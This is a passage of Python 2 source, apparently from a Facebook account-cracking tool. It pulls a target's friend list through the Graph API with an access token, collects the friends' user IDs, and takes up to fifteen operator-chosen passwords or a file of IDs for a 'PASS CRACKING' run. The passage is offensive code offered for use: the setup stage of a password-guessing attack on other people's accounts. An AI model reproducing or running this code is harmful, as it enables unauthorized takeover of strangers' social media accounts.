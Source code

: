         try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '4':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS FILE CRACK'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')
        ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;92m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;38mRequested file not found\x1b[0;98m'
            raw_input(' Press enter to back ')
            choice()
        